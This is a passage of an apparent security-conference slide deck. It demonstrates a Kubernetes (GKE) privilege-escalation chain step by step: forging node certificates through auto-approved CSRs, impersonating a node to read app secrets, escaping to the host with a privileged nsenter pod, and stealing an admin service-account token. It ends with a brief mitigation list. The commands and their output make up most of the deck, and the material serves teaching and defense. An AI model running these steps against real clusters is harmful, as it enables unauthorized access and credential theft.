#               --client-certificate    node.crt           \
#               --client-key            kubelet.key           \
#               --certificate-authority apiserver.crt         \
#               --server https://${KUBERNETES_PORT_443_TCP_ADDR}"


root@hckd# khack2 get pods
error: tls: private key type does not match public key type
```
????

---
### Exploit pwnd certificate
```coffeescript
root@hckd# khack2 get pods
error: tls: private key type does not match public key type                     


```


The Kubelet Bootstrapper created a new private key...

---
### Exploit pwnd certificate
```coffeescript
root@hckd# khack2 get pods
error: tls: private key type does not match public key type                     


```


_The Kubelet Bootstrapper created a new private key..._

* Let's create our own key!

---
### describe current cert
[.code-highlight: 1]

```coffeescript
root@hckd# openssl x509 -in node.crt -text
Certificate:
    Data:
    ....
        Subject: O = system:nodes, CN = system:node:gke-cluster-1-...
        Subject Public Key Info:
            Public Key Algorithm: id-ecPublicKey
                Public-Key: (256 bit)
    ....
```

---
### generate key
[.code-highlight: 2-10]
[.code-highlight: 5]

```yaml
root@hckd# openssl x509 -in node.crt -text
Certificate:
    Data:
    ....
        Subject: O = system:nodes, CN = system:node:gke-cluster-1-...
        Subject Public Key Info:
            Public Key Algorithm: id-ecPublicKey
                Public-Key: (256 bit)
    ....
```


---
### Generate key
[.code-highlight: all]
[.code-highlight: 4]
[.code-highlight: 10-15]

```coffeescript
root@hckd# openssl req -nodes -newkey rsa:2048  \
#                -keyout skynet.key             \
#                -out skynet.csr                \
#                -subj "/O=system:nodes/CN=system:node:whatever" <- remember this
Generating a RSA private key
....................................+++++
...........................+++++
writing new private key to 'skynet.key'
-----

root@hckd# ls
apiserver.crt  kubelet.crt  kubelet.key  
node.crt  skynet.csr  skynet.key
```

---
### Submit the key to k8s api
[.code-highlight: all]
[.code-highlight: 5]
[.code-highlight: 8]
[.code-highlight: 9]
[.code-highlight: 15]


```yaml
root@hckd# cat <<EOF | khack create -f -
apiVersion: certificates.k8s.io/v1beta1
kind: CertificateSigningRequest
metadata:
  name: node-csr-$(date +%s)
spec:
  groups:
  - system:nodes
  request: $(cat skynet.csr | base64 | tr -d '\n')
  usages:
  - digital signature
  - key encipherment
  - client auth
EOF
certificatesigningrequest.certificates.k8s.io/node-csr-1637735026 created               
```

---
### Validate approval
[.code-highlight: all]
[.code-highlight: 5]

```coffeescript
root@hckd# khack get csr
  NAME                     AGE   SIGNERNAME  REQUESTOR           CONDITION
  csr-d886r                85m   kubernet... system:node:gke-... Approved,Issued
  node-csr-13YZFdbS1sQ8... 85m   kubernet... kubelet             Approved,Issued
# node-csr-1637735026      14s   kubernet... kubelet             Approved,Issued           
```

### Success!

---
### Let's decode it!
[.code-highlight: 1-3]
[.code-highlight: 5-9]
[.code-highlight: 10-15]

```coffeescript
root@hckd# khack get csr node-csr-1637735026
  NAME                     AGE   SIGNERNAME  REQUESTOR  CONDITION
  node-csr-1637735026      14s   kubernet... kubelet    Approved,Issued           

root@hckd# khack get csr node-csr-1637735026    \
      -o jsonpath='{.status.certificate}'       \
      | base64 -d >                             \
      skynet.crt          

root@hckd# cat skynet.crt
-----BEGIN CERTIFICATE-----
MIIDxjCCAi6gAwIBAgIRAItGFVuOH+VSZ6xWdHv5lC4wDQYJKoZIhvcNAQELBQAw
LzEtMCsGA1UEAxMkMmMxYmZiMGItNGVmYi00ZmRmLWE5NGUtNjkxZDhmZDhhYThk
MB4XDTIxMTEyNDA2MjM0OVoXDTI2MTEyMzA2MjM0OVowNjEVMBMGA1UEChMMc3lz
```

---
### TRY it!
[.code-highlight: 1-5]
[.code-highlight: 2-3]
[.code-highlight: 6-9]
[.code-highlight: 10-14]

```coffeescript
root@hckd# alias khack-final="kubectl \
#               --client-certificate    skynet.crt            \
#               --client-key            skynet.key            \
#               --certificate-authority apiserver.crt         \
#               --server https://${KUBERNETES_PORT_443_TCP_ADDR}"

root@hckd# khack-final get no
NAME                                       STATUS   ROLES    AGE   VERSION
gke-cluster-1-default-pool-34b372e1-bhfv   Ready    <none>   97m   v1.20.10-gke.2100

root@hckd# khack-final get po
NAME         READY   STATUS    RESTARTS   AGE
hacked-pod   1/1     Running   0          79m
```

---

## Remember our targets?
[.header-emphasis:  alignment(center)]

[.column]
### **_App Sensitive Data_**


[.column]
### **_Admin Service Account_**


---
### Target 1
## Stealing secrets
[.code-highlight: all]
[.code-highlight: 4]

```coffeescript
root@hckd# khack-final get po
NAME            READY   STATUS    RESTARTS   AGE
hacked-pod      1/1     Running   0          80m
sensitive-app   1/1     Running   0          2m
```
---
### Target 1
## Stealing secrets

```yaml
root@hckd# khack-final get secrets
Error from server (Forbidden): secrets is forbidden: 
User system:node:whatever cannot list resource "secrets" in API group 
"" in the namespace "default"...
```

???

---
### Target 1
## Stealing secrets

```yaml
root@hckd# khack-final get secrets
Error from server (Forbidden): secrets is forbidden: 
User system:node:whatever cannot list resource "secrets" in API group 
"" in the namespace "default"...
```

- We can't list secrets...

---
### Target 1
## Stealing secrets

```yaml
root@hckd# khack-final get secrets
Error from server (Forbidden): secrets is forbidden: 
User system:node:whatever cannot list resource "secrets" in API group 
"" in the namespace "default"...
```

- _We can't list secrets..._
- Let's find its name!

---
### Target 1
## Get Pods secrets
[.code: #25DDC6, #25DDC6, #ECAF3F, #25DDC6, #25DDC6]
[.code-highlight: 4]
[.code-highlight: 6]
[.code-highlight: 13-24]

```yaml
root@hckd# khack-final get po
NAME            READY   STATUS    
hacked-pod      1/1     Running   
sensitive-app   1/1     Running  <- our target

root@hckd# khack-final get po sensitive-app -o yaml
apiVersion: v1
kind: Pod
metadata:
....
spec:
  containers:
  - env:
    - name: PASSWORD
      valueFrom:
        secretKeyRef:
          key: APP_PASSWORD
#         name: sensitive-app-secrets
    - name: USERNAME
      valueFrom:
        secretKeyRef:
          key: APP_USERNAME
#         name: sensitive-app-secrets
...
```

---
### Target 1
## Get Secret value
[.code: #25DDC6, #25DDC6, #ECAF3F, #25DDC6, #25DDC6]
[.code-highlight: 1]

```yaml
root@hckd# khack-final get secret sensitive-app-secrets -o yaml
Error from server (Forbidden): secrets "sensitive-app-secrets" is forbidden: 
User "system:node:whatever" cannot get resource "secrets" in API group "" in 
the namespace "default": no relationship found between node 'whatever' and this object
```

---
### Target 1
## Get Secret value
[.code: #25DDC6, #25DDC6, #ECAF3F, #25DDC6, #25DDC6]
[.code-highlight: 2-5]
[.code-highlight: 4]


```yaml
  root@hckd# khack-final get secret sensitive-app-secrets -o yaml
  Error from server (Forbidden): secrets "sensitive-app-secrets" is forbidden: 
  User system:node:whatever cannot get resource "secrets" in API group "" in the namespace "default": 
# no relationship found between node 'whatever' and this object
```

What now?

---
### Target 1
## Get Secret value
[.code: #25DDC6, #25DDC6, #ECAF3F, #25DDC6, #25DDC6]
[.code-highlight: 4]


```yaml
  root@hckd# khack-final get secret sensitive-app-secrets -o yaml
  Error from server (Forbidden): secrets "sensitive-app-secrets" is forbidden: 
  User system:node:whatever cannot get resource "secrets" in API group "" in the namespace "default": 
# no relationship found between node 'whatever' and this object
```

What now?

- We need to impersonate an existing Node!

---
### Target 1
## Recreate Cert with valid Node name
[.code: #ECAF3F, #ECAF3F, #ECAF3F, #ECAF3F, #ECAF3F]
[.code-highlight: 1-3]
[.code-highlight: 3]
[.code-highlight: 5-9]


```yaml
root@hckd# khack-final get no
NAME                                       STATUS  
gke-cluster-1-default-pool-34b372e1-bhfv   Ready   

root@hckd# openssl req -nodes -newkey rsa:2048  \
#    -keyout skynet.key                         \
#    -out skynet.csr                            \
#    -subj                                      \
#    "/O=system:nodes/CN=system:node:gke-cluster-1-default-pool-34b372e1-bhfv"
Generating a RSA private key
....................................+++++
...........................+++++
writing new private key to 'skynet.key'
-----
```
---
### Target 1
## Recreate Cert with valid Node name
[.code: #25DDC6, #25DDC6, #ECAF3F, #25DDC6, #25DDC6]
[.code-highlight: 3,9]


```yaml
root@hckd# khack-final get no
NAME                                       STATUS  
gke-cluster-1-default-pool-34b372e1-bhfv   Ready   

root@hckd# openssl req -nodes -newkey rsa:2048  \
     -keyout skynet.key                         \
     -out skynet.csr                            \
     -subj                                      \
#    "/O=system:nodes/CN=system:node:gke-cluster-1-default-pool-34b372e1-bhfv"
Generating a RSA private key
....................................+++++
...........................+++++
writing new private key to 'skynet.key'
-----
```
---
### Same as before...
### Submit certificate

[.code-highlight: all]
[.code-highlight: 1-14]
[.code-highlight: 15]

[.column]
```yaml
  root@hckd# cat <<EOF | khack create -f -
  apiVersion: certificates.k8s.io/v1beta1
  kind: CertificateSigningRequest
  metadata:
    name: node-csr-$(date +%s)
  spec:
    groups:
    - system:nodes
    request: $(cat skynet.csr | base64 | tr -d '\n')
    usages:
    - digital signature
    - key encipherment
    - client auth
  EOF
# certifica.../node-csr-1637737310 created
```

[.column]
[.code-highlight: none]
[.code-highlight: 1]
[.code-highlight: 1-5]
[.code-highlight: 6-11]

```coffeescript
root@hckd# khack get csr                  \ 
      node-csr-1637737310                 \
      -o jsonpath='{.status.certificate}' \
      | base64 -d >                       \
      skynet.crt          

root@hckd# cat skynet.crt
-----BEGIN CERTIFICATE-----
MIIDxjCCAi6gAwIBAgIRAItGFVuOH+VSZ6xWdHv5lC4wDQYJK
oZIhvcNAQELBQAwLzEtMCsGA1UEAxMkMmMxYmZiMGItNGVmYi
00ZmRmLWE5NGUtNjkxZDhmZDhhYThkMB4XDTIxMTEyNDA2MjM
...
```
---

## Get Secret value
### (For real this time)
[.code: #25DDC6, #25DDC6, #ECAF3F, #25DDC6, #25DDC6]
[.code-highlight: all]
[.code-highlight: 4-5]


```yaml
  root@hckd# khack-final get secret sensitive-app-secrets -o yaml
  apiVersion: v1
  data:
#   APP_PASSWORD: dGFyZ2V0X3Bhc3N3b3Jk
#   APP_USERNAME: dGFyZ2V0X3VzZXJuYW1l
  kind: Secret
  metadata:
    annotations:
```

Let's decrypt it!

---

## Decrypt Secrets
### Success!
[.code: #25DDC6, #25DDC6, #ECAF3F, #25DDC6, #25DDC6]
[.code-highlight: all]
[.code-highlight: 5, 11]

[.column]
```coffeescript
root@hckd# khack-final get secret        \ 
      sensitive-app-secrets              \
      -o jsonpath='{.data.APP_PASSWORD}' \
      | base64 -d
target_password

root@hckd# khack-final get secret        \ 
      sensitive-app-secrets              \
      -o jsonpath='{.data.APP_USERNAME}' \
      | base64 -d
target_username
```
[.column]
[.code-highlight: none]
[.code-highlight: 6-11]
```yaml
apiVersion: v1
kind: Secret
metadata:
  name: sensitive-app-secrets
type: Opaque
data:
# echo -n "target_password" | base64
  APP_PASSWORD: dGFyZ2V0X3Bhc3N3b3Jk 
# echo -n "target_username" | base64
  APP_USERNAME: dGFyZ2V0X3VzZXJuYW1l
```

---
### Target 2
## stealing admin privileges
[.code-highlight: 1, 6]

```coffeescript
root@hckd# khack-final get pods -n kube-system
NAME                                   READY   STATUS
l7-default-backend-56cb9644f6-5vb84    1/1     Running 
metrics-server-v0.3.6-9c5bbf784-j4m2l  2/2     Running 
...
app-with-admin-role                    1/1     Running
...
pdcsi-node-zslg9                       2/2     Running
```

---
### Target 2
## stealing admin privileges
[.code-highlight: 1, 6]

```coffeescript
root@hckd# khack-final get pods -n kube-system
NAME                                   READY   STATUS
l7-default-backend-56cb9644f6-5vb84    1/1     Running 
metrics-server-v0.3.6-9c5bbf784-j4m2l  2/2     Running 
...
app-with-admin-role                    1/1     Running
...
pdcsi-node-zslg9                       2/2     Running
```

- We need access to host Node...

---
### Target 2
## The one-liner to end them all


---
### Target 2
## The one-liner to end them all

- Spawns a container named _r00t_
- __Privileged mode__
- _"hostPID":true_ -> Used host Node PID namespace
- _nsenter_ executes `bin/bash` with context of another process

### __> The Container mounts the host root file system and chroot to it__

---
### Target 2
## Escaping to the underlying Node

```coffeescript
root@hckd# khack-final run r00t --restart=Never -ti --rm \
        --image lol --overrides '{"spec":{"hostPID": true, 
        "containers":[{"name":"1","image":"alpine","command":
        ["nsenter","--mount=/proc/1/ns/mnt","--","/bin/bash"],
        "stdin": true,"tty":true,"imagePullPolicy":"IfNotPresent"
        ,"securityContext":{"privileged":true}}]}}'
r00t / # 
r00t / # ls /var/lib/kube*
/var/lib/kube-proxy:
kubeconfig

/var/lib/kubelet:
bootstrap-kubeconfig  cpu_manager_state  device-plugins  kubeconfig  
pki  plugins  plugins_registry  pod-resources  pods
```

### Hmmm what can we do with this?

---
[.header-strong: #F1EDE8]
<br>
<br>
<br>
<br>

# remember!
# __Service Accounts are mounted as Tokens at node level!__


---
### List mounted secrets

```yaml
  r00t / # mount | grep secret
  tmpfs on /var/lib/kubelet/pods/.../kubernetes.io~secret/fluentbit-gke-token-...
  tmpfs on /var/lib/kubelet/pods/.../kubernetes.io~secret/fluentbit-gke-token-...
  ....
# tmpfs on /home/kubernetes/.../.../.../target-sa-token-hzhlf type tmpfs (rw,relatime) 👀
# tmpfs on /home/kubernetes/.../.../.../target-sa-token-hzhlf type tmpfs (rw,relatime) 👀
  ....
```

- Looks like our target token... 
 👀 👀 👀 👀 👀 👀

---
### Unmount secrets

```yaml
r00t / # ls /home/kubernetes/containerized_mounter/rootfs/var/lib/
#        kubelet/pods/.../volumes/kubernetes.io~secret/target-sa-token-hzhlf
  ca.crt  namespace  token


r00t / # cat /home/kubernetes/containerized_mounter/rootfs/var/lib/
#       kubelet/pods/.../volumes/kubernetes.io~secret/target-sa-token-hzhlf/token
  eyJhbGciOiJSUzI1NiIsImtpZCI6IkZTMEdpZzJTT1Rwc1ByMzJCLUw4U2xjS2VnZnhaVmxPd21Tal9adHVRTmcifQ.
  eyJpc3MiOiJrdWJlcm5ldGVzL3NlcnZpY2VhY2NvdW50Iiwia3ViZXJuZXRlcy5pby9zZXJ2aWNlYWNjb3VudC9uYW1
  lc3BhY2UiOiJrdWJlLXN5c3RlbSIsImt1YmVybmV0ZXMuaW8vc2VydmljZWFjY291bnQvc2VjcmV0Lm5hbWUiOiJ0YX
.....

root@hckd# alias godmode=kubectl --token=`cat token`                          \
    --certificate-authority=/run/secrets/kubernetes.io/serviceaccount/ca.crt  \
    -n kube-system                                                            \
    --server=https://$KUBERNETES_PORT_443_TCP_ADDR                            

```

---


### Unlimited power!

```coffeescript
root@hckd# godmode auth can-i create pod 
yes
root@hckd# godmode auth can-i delete pod
yes
root@hckd# godmode auth can-i create namespace
yes
root@hckd# godmode auth can-i delete namespace
yes
root@hckd# godmode auth can-i create clusterrole
yes
root@hckd# godmode auth can-i delete clusterrole
yes
```

---
# Mitigation


---
# Mitigation

[.column]
- Principle of least privilege
- Restrict Access to Nodes
- Strict Network Policies
- Egress Gateway

[.column]
- Enable Metadata Concealment
- Enable Node Hardening
- GCP Service Accounts
- Workload Identities!
- Stay up-to-date!

---
[.header: text-scale(3), alignment(left)]
[.text-emphasis: alignment(right), text-scale(.3)]
[.header-emphasis: alignment(center)]
# <br>
# <br>
# <br>
#### Thanks for listening
# Questions?
# <br>
# <br>
# <br>
## _  _
# <br>

_*nice*_